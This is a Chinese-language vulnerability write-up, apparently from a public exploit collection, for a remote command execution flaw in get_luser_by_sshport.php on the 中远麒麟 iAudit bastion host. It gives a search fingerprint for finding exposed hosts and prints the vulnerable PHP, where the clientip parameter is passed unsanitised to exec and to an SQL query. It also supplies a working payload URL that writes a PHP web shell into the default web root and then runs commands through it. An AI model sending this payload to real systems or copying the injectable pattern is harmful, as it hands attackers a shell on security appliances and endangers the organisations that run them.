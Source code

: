 # 中远麒麟 iAudit堡垒机 get_luser_by_sshport.php 远程命令执行漏洞

## 漏洞描述

中远麒麟 iAudit堡垒机 get_luser_by_sshport.php文件存在命令拼接，攻击者通过漏洞可获取服务器权限

## 漏洞影响

<a-checkbox checked>中远麒麟 iAudit堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>cert.subject="Baolei"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210714220315959.png)



出现漏洞的文件为 get_luser_by_sshport.php



```php
<?php
define('CAN_RUN', 1);
require_once('include/global.func.php');
require_once('include/db_connect.inc.php');
if(empty($_GET['clientip'])){
	echo 'no host';
	return;
}
if(empty($_GET['clientport'])){
	echo 'no port';
	return;
}
$cmd = 'sudo perl test.pl '.$_GET['clientip'].' '.$_GET['clientport'];
exec($cmd, $o, $r);
 $sql = "SELECT luser FROM sessions WHERE addr='".$_GET['clientip']."' and pid='".$o[0]."' order by sid desc limit 1";
$rs = mysql_query($sql);
$row = mysql_fetch_array($rs);
echo $row['luser'];
?>
```



其中 clientip存在命令拼接 使用 ; 分割命令就可以执行任意命令

Web目录默认为 **/opt/freesvr/web/htdocs/freesvr/audit/**

发送Payload

```plain
https://xxx.xxx.xxx.xxx/get_luser_by_sshport.php?clientip=1;echo+%27%3C?php%20var_dump(shell_exec($_GET[cmd]));?%3E%27%3E/opt/freesvr/web/htdocs/freesvr/audit/test.php;&clientport=1
```

![img](../../../.vuepress/public/img/image-20210714220838976.png)



再访问写入的文件执行命令

![img](../../../.vuepress/public/img/image-20210714221135635.png)